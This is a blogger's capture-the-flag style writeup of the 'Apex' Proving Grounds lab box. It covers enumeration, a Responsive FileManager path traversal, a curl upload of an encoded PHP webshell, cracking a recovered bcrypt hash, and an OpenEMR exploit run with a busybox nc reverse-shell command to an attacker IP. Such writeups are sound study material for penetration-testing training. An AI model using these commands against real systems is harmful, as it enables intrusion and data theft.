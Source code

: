 ```yaml
---
layout: writeup
title: Apex - Proving Grounds
date: 2024-07-21 13:32:20 +0300
description: A Writeup of the Apex Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


Here's another writeup for Apex, an Intermediate Proving Grounds box I saw on the [LainKusunagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I take note that the community has rated this Very Hard. As usual, I get started with an nmap scan (trying nmap Automator this time) and a quick search of the IP address in the URL bar in case there is a web server on port 80. It looks like there is:

![Apex_1.png](/assets/images/Apex/Apex_1.png){: .center-aligned width="600px"}

Might as well run a directory scan on that as well while I look around. I see a few emails which could be usernames:

![Apex_2.png](/assets/images/Apex/Apex_2.png){: .center-aligned width="600px"}

I also see `contact@apex.offsec`. I try a contact form, but it returns the error: "The form action property is not set!" I'm not expecting an SQLi point there. It seems most of the website is all on this one page, but after checking the top bar, I see that Scheduler is not shown on the main page, so I click that, and it takes me to a login page: 

![Apex_3.png](/assets/images/Apex/Apex_3.png){: .center-aligned width="600px"}

Interesting. I wonder if that URL will show up on the directory scan. Time to check for default creds and exploits. I try a few options for default creds, but I can't get them working. At this point I get the nmap scan back and see: 

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

So we have mysql and samba to check out as well. I am able to find a samba share called docs and login using a null username, but it only has two PDFs that don't seem to have anything interesting. I find the same docs later here: `http://192.168.216.145/source/Documents/` but I can't upload a file through SMB to try and execute from that URL. I can't get anything with the MySQL db. The directory search also doesn't seem to find anything interesting, so I focus on web app. It would be better if I could find a version because exploit-db returns 37 entries for exploits. I guess I can started with the unauthenticated ones. 

I tried a few, but I couldn't get anything working. The directory scan also found a directory called `/filemanager` which I intially assumed was somehow a part of the same web service, just because it was nestled within all of the other results. I started to think that maybe it was a a second service running on the same port. I tried uploading a shell, but I couldn't get it to upload, even when changing the filetype to phtml or altering the Mime type. So I started searching for exploits for "Responsive FileManager", again not knowing the version. I tried an RCE that I couldn't get working, but I wanted to find a proof that this might be the correct way forward, so I checked out a path traversal exploit, found [here](https://www.exploit-db.com/exploits/49359). I was able to return /etc/passwd which showed this: `white:x:1000:1000::/home/white:/bin/sh`. I know there was a potential username of wwalter for the doctor Walter White, but this would suggest that the user is actually `white`. I might return to the brute force exploit I found for OpenEMR earlier. But I can continue to check out other possible files first. I can get local.txt from this: `python3 49359.py http://192.168.216.145 PHPSESSID=39l4h8u9blbg9l1e5nmghc56e2 /home/white/local.txt`

I find this exploit which supposedly lets me upload a shell using curl: 

But this returns "forbiden" : `curl -s "http://192.168.216.145/filemanager/execute.php?action=create_file" -d "path=cmd.php&path_thumb=../thumbs/.txt&name=1.txt&new_content=%3c%3f%70%68%70%20%65%63%68%6f%20%73%68%65%6c%6c%5f%65%78%65%63%28%24%5f%47%45%54%5b%27%63%27%5d%29%3b%3f%3e” -H “Cookie: PHPSESSID=39l4h8u9blbg9l1e5nmghc56e2"` 

I try to upload the file with php5, php7, phmtl, and pHP extensions, but I get a 'forbiden' response every time. So the file manager path might not be the path to take, but maybe I can still find a config file with a password which could let me authenticate to the web app. I try this for a while, but I can't seem to get anything at all except `/etc/passwd` and the local.txt file. I go through the open source github pages for both [Responsive FileManager](https://github.com/trippo/ResponsiveFilemanager/tree/master), which showed that it's possible extensions are allow-listed rather than deny-listed, meaning I'm unlikely to upload a working shell, and [OpenEMR](https://github.com/openemr/openemr). I can't seem to find any way for get a OpenEMR file through the filemanager RFI exploit. 

At this point I tried a bunch of different things, in particular trying to find any config files or anything with a password. Unfortunately I could not, and gave up to look for a walkthrough. I'm still a little confused about how the exploit is supposed to actually work. I looked up 3 walkthroughs, two ([1](https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/apex/5-80-filemanager-9.13.4), [2](https://al1z4deh.medium.com/proving-grounds-apex-834e61a9fc03)) of which modified the [code](https://www.exploit-db.com/exploits/49359) I was already using, one of which did not. The thing is, they modify the code so that the returned file is pasted into Documents, but the [third walkthrough](https://medium.com/@jserna4510/proving-grounds-apex-walkthrough-c46ff7935294) evidently didn't need to, and in my own experience trying a bunch of different things, some those files did show up there, and I definitely didn't modify the code. I could not replicate, but I am certain. I mention it because it appears the linked walkthrough didn't need to either, though it also suggest the file we needed to find `/var/www/openemr/sites/default/sqlconf.php` would eventually be found through the SMB server, which is not necessarily the case. It's understandable though that author may not have found the directory where the smb server pointed to: `/var/www/html/source/Documents` or the web directory: `http://192.168.216.145/source/Documents/`. I am certain that web directory showed the /etc/passwd file, the local.txt file, and others that I'd used the RFI exploit for, and again, I never modified the exploit. I'm not sure exactly how that happened, but eventually I gave up trying to replicate, even though I do feel the third walkthrough was enough to at least validate my experience on the matter. 

Eventually I used the first two walkthroughs and edited the exploit to point `path=` on line 36 to `path=/Documents`. This allowed me to read the sqlconf.php file...psych no it didn't. 

![Apex_4.png](/assets/images/Apex/Apex_4.png){: .center-aligned width="600px"}

Even though the file is shown as having a non-zero size, it opens as blank, and it downloads as 0 bytes. But I can get it from the smbserver. 

![Apex_5.png](/assets/images/Apex/Apex_5.png){: .center-aligned width="600px"}

That openemr:C78maEQUIeQ turn out to be the SQL creds, and from there we can look around. We see databases "information_schema" and "openemr" and use "openemr." There are a lot of tables, but we can zero in on "users" and ultimately "users_secure." We `SELECT * FROM users_secure` and get this:

![Apex_6.png](/assets/images/Apex/Apex_6.png){: .center-aligned width="600px"}

I use namethathash to determine that this is bcrypt or hashcat mode 3200. And we get a password of "thedoctor." That gives us creds of admin:thedoctor which we can use on one of the many authenticated exploits for the openemr service found earlier on. I go with [this one](https://www.exploit-db.com/exploits/45161). The command looks like this: 
`python2 45161.py http://192.168.216.145/openemr -u admin -p thedoctor -c 'busybox nc 192.168.45.235 80 -e /bin/bash'`

I get a shell for `www-data`. And I try the usual low hanging fruit like checking for SUID binaries and `sudo -l`. I run linpeas and lse.sh, but eventually retry `thedoctor` as the root password. 

![Apex_7.png](/assets/images/Apex/Apex_7.png){: .center-aligned width="600px"}

And we're done. Lessons learned - this was a tough one to feel good about as far as lessons learned are concerned. I was able to enumerate and find the correct exploit, but I couldn't ultimately get it working the way it was supposed to. I'm not sure how long that would have taken without looking up a writeup. Changing the path to a different internal directory for an attack using the clipboard would not have occurred to me very quickly, and I guess I can take solace in knowing that I was probably better off looking up that step after a few hours rather than spending a ton more time finding nothing. I also needed to use python2 at one point, not python or python3. I usually do try that, but after having spent a few hours I was pretty tired by the end and double checked my syntax using the writeup. All in all, I don't feel great about this one, but I guess that's why we put the time in. 